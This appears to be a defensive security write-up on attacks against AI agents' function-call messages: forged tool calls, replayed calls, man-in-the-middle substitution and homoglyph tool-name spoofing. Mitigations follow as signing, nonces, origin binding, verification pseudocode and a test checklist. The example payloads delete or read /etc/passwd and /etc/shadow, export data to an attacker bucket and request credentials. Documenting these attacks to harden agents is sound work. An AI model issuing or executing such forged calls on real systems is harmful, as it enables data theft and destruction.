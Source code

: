## Attack Scenario

### 1. Direct JSON Forgery
The adversary crafts a raw JSON message with a non-existent or unauthorized tool name.
**Example:**
~~~json
{
  "type": "function_call",
  "name": "delete_file",
  "arguments": { "path": "/etc/passwd" }
}
~~~
If the host does not validate tool names against the registered manifest, this forged call may execute.

---

### 2. Unsigned / Unbound Message Replay
The adversary replays or injects a previously observed function-call message (or a variant) because calls are not bound to a session, nonce, or signature.
**Example:**
~~~json
{
  "type": "function_call",
  "id": "call-00042",
  "name": "export_report",
  "arguments": { "range": "Q1-ALL", "destination": "s3://attacker-bucket" }
}
~~~
If the host accepts stale or out-of-context calls without verifying freshness (nonce/timestamp) and origin binding, the replayed call may execute.

---

### 3. Man-in-the-Middle (AiTM) Substitution
An adversary with access to the communication channel intercepts a legitimate function call and replaces it with a forged one.
**Example (original):**
~~~json
{
  "type": "function_call",
  "name": "summarize_text",
  "arguments": { "text": "contract.txt" }
}
~~~
**Example (substituted):**
~~~json
{
  "type": "function_call",
  "name": "download_credentials",
  "arguments": {}
}
~~~
If the host lacks message integrity and origin authentication, it may execute the substituted call.

---

### 4. Exploiting Weak Validation / Homoglyph Spoofing
Attackers abuse lax validation or character tricks (e.g., Unicode homoglyphs, zero-width joiners, case changes) to bypass manifest checks with a tool name that looks legitimate.
**Example (spoofed name):**
~~~json
{
  "type": "function_call",
  "name": "Dele\u200Dte_File",
  "arguments": { "path": "/etc/shadow" }
}
~~~
## Mitigation – Man-in-the-Middle (AiTM) Substitution

**Goal:** Prevent an attacker on the wire from swapping a legitimate function call with a forged one.

### Controls
- **Message Authenticity:** Sign the entire function-call payload (e.g., Ed25519/JWS). Host must verify the signature **before** execution.
- **Origin Binding:** Bind each call to `agent_id`, `session_id`, and `turn_id`; verify they match the authenticated channel (mTLS/public key).
- **Anti-Replay:** Require `nonce` + `issued_at` and keep a short-lived ledger of seen nonces; drop duplicates/stale calls.
- **Manifest/ID Check:** Execute **only** tools whose stable `tool_id` exists in the signed manifest (do not rely on display names).

### Call Payload (fields)
~~~json
{
  "type": "function_call",
  "name": "download_credentials",
  "arguments": {},
  "agent_id": "agent-123",
  "session_id": "sess-abc",
  "turn_id": 42,
  "nonce": "0x9f3c...e1",
  "issued_at": 1725000000,
  "sig": "ed25519:MEUCIQ..."
}
~~~

### Verification Pseudocode
~~~python
assert call["type"] == "function_call"

# 1) Verify signature over the canonicalized payload (excluding 'sig')
if not verify_sig(canonical_without_sig(call), key_for(call["agent_id"])):
    reject("bad signature")

# 2) Bind to authenticated origin/session
if call["session_id"] != ctx.session_id or call["agent_id"] != ctx.agent_id:
    reject("origin/session mismatch")

# 3) Anti-replay
if is_replayed(call["nonce"], call["issued_at"]):
    reject("replay detected")

# 4) Manifest & name hardening
tool_id = normalize_nfkc(call["name"])
if not NAME_RE.match(tool_id): reject("invalid tool identifier")
if tool_id not in SIGNED_MANIFEST.tool_ids: reject("unregistered tool")

execute(tool_id, call["arguments"])
~~~

### Quick Test Checklist
- [ ] Tamper any byte → signature verification fails → **blocked**  
- [ ] Change `session_id/agent_id` → origin mismatch → **blocked**  
- [ ] Resend same `nonce` → replay detected → **blocked**  
- [ ] Use unregistered or homoglyph tool name → manifest/name check → **blocked**

